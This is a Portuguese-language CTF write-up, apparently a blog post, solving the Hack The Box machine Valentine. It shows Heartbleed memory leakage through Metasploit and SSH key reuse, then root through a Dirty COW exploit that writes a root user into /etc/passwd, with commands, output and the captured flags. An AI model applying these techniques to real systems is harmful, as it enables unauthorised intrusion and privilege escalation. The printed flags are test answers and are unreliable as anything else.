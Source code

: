 ```yaml
---
layout: default
title: Valentine [Hack The Box] - Hearthbleed
author: obrerodrigues
categories: [CTFs]
tags: [Hack The Box]
---
```

![](https://github.com/brerodrigues/brerodrigues.github.io/raw/master/assets/img/valentine.png)

Essa máquina foi bem fácil e básica, bastou ser um bom script kiddie para conseguir um root fácil. Demorei muito mais tempo que o necessário por não ter percebido algo óbvio que irei citar ao longo do post. A parte mais interessante foi poder explorar e ver na prática a falha Hearthbleed.

Acessando o IP da Valentine no chrome nos leva a uma página estática com uma imagem familiar para quem ficou ligado em notícias de segurança nos últimos tempos. Nela tem a logo de uma vulnerabilidade bem pop e sacar isso já daria meio caminho andado para a flag do user.

Rodei o nmap (nmap -v -A -oN nmap.txt 10.10.10.79) e vi a porta 80/443 com o apache/ssl e a 22 com ssh. E ao mesmo tempo que o nmap, meu dirbuster achou o diretório http://10.10.10.79/dev.

No diretório /dev haviam os arquivos: hype_key e notes.txt.

No notes.txt o conteúdo era:
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

Nesse momento ainda não sabia que porra poderia ser o decoder/encoder, mas guardei essa informação.

Já em hype_key tinha um bocado de hexadecimais que, ao usar esse site http://www.unit-conversion.info/texttools/hexadecimal/, converti para algo bastante interessante:

<script src="https://gist.github.com/brerodrigues/1bc4113bdb9233ce2270fe1afbe864ef.js"></script>

Uma chave privada! Com certeza deve servir para alguma coisa mas ainda não dava para saber.

Então guardei a chave e abri o metasploit porque tive preguiça. Se você precisou se perguntar a razão de eu abrir o metasploit é porque não se ligou que a imagem da página principal faz referência ao "[heartbleed bug](https://brerodrigues.github.io/hacking/o-famoso-e-aterrorizante-bug-heartbleed "heartbleed bug")".

Voltando a meu metasploit, peguei o exploit do heartbleed, configurei o alvo e outros pequenos detalhes que deixo para você adivinhar e rodei sem mesmo precisar checar e o servidor começou a cuspir conteúdo da memória como deveria. Rodei o exploit mais de uma vez procurando por algo facilmente vísivel. Então em meio a um monte de porcaria eu vi isso:

```
......Z..PN..v............2..{p.]4W.$:..f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..U!....c.@..Au..'...............cation/x-www-form-urlencoded..Content-Length: 9....text=asas...K..<y...v.._.
```

Aparentava ser uma requisição http para o tal /decode.php e mais embaixo há a variavel $text com o base64: aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Entrando em http://10.10.10.79/decode.php vi que era um simples decodificador para base64. Era disso que o arquivo notes.txt fazia menção e a requisição faz total sentido. Usei o mesmo para decodificar o valor que peguei com o exploit e obtive o resultado: heartbleedbelievethehype

Temos em mãos uma chave privada e um valor obtido explorando o servidor. O que fazer?

Assim que vi a chave privada pensei em usar direto no servidor SSH, mas sem saber o nome de usuário não rolava. Fiquei viajando por um tempo até perceber o nome do arquivo onde estava a chave em hexadecimal: hype_key.

A chave deveria pertencer ao hype e heartbleedbelievethehype poderia muito bem ser um password.

```
brenno@budweiser ~/D/c/h/valentine> ssh -i new2/hype.txt hype@10.10.10.79
Enter passphrase for key 'new2/hype.txt': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jul 15 18:26:44 2018 from 10.10.15.248
```

Boa! Hora de pegar a flag do user.txt

```
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt
e6710a5464769fd5fcd216e076961750
```

A escalação de privilégios foi bem simples porque a máquina tava rodando um kernel desatualizado:

```
hype@Valentine:~$ uname -r
3.2.0-23-generic
```

Verificar o kernel é quase sempre a primeira coisa que faço porque caso encontre um desses é fácilimo conseguir root. Com uma pesquisa rápida no Google por essa versão se descobre que é vulnerável ao famigerado [dirtycow](https://pt.wikipedia.org/wiki/Dirty_COW "dirtycow").

Então, usei esta versão do exploit: https://ro.0day.today/exploit/26430 e w00t w00t. Se for usar, não esqueça de modificar pelo amor de deus.

Compilando no meu super ultra secreto diretório:
```
hype@Valentine:/tmp/.obrerodrigues$ gcc -pthread poc.c -o dir -lcrypt
```
Rodando e escolhendo um password seguro para uma conta que tem privilégios root:
```
hype@Valentine:/tmp/.obrerodrigues$ ./dir
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
ieatworld:iePFiy4QljHQk:0:0:pwned:/root:/bin/bash

mmap: 7ff5325d2000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'ieatworld' and the password '123457'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'ieatworld' and the password '123457'.
```
Hora de logar e pegar a flag root:
```
hype@Valentine:/tmp/.obrerodrigues$ 
hype@Valentine:/tmp/.obrerodrigues$ 
hype@Valentine:/tmp/.obrerodrigues$ su ieatworld
Password: 
ieatworld@Valentine:/tmp/.obrerodrigues# whoami
ieatworld
ieatworld@Valentine:/tmp/.obrerodrigues# ls /root
curl.sh  root.txt
ieatworld@Valentine:/tmp/.obrerodrigues# cat /root/root.txt
f1bb6d759df1f272914ebbc9ed7765b2
```
E só por curiosidade, que tal descobrir o que tem nesse arquivo curl?
```
ieatworld@Valentine:/tmp/.obrerodrigues# cat /root/curl.sh
/usr/bin/curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0' -H 'Referer: https://127.0.0.1/decode.php' -H 'Content-Type: application/x-www-form-urlencoded' \
    -b 'PHPSESSID=n12acqnj0efoq5etm5d12k6j85' \
    --data-binary $'text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' \
    'https://127.0.0.1/decode.php' >  /dev/null 2>&1
```
Olha só, é a requisição que peguei com o hearthbleed. Provavelmente havia um cronjob rodando esse script e tal.

E com dois exploits de vulnerabilidades pops e um pouco de atenção foi possível obter as flags.

